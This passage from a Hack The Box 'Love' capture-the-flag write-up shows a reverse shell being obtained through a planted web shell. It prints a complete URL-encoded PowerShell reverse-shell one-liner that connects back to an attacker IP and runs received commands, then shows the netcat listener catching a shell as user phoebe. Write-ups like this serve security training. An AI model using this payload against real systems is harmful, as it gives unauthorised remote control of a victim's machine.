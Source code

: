 ![love_systeminfo.png](../assets/love_assets/love_systeminfo.png)

Lets set up a nc listener and grab a URL encoded powershell reverse shell oneliner from revshells.com

```
http://love.htb/images/web_shell.php?cmd=powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.240%27%2C443%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

We then catch a shell back as user phoebe:

```
┌──(ryan㉿kali)-[~/HTB/Love]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.240] from (UNKNOWN) [10.129.48.103] 60487
whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> hostname
Love
```

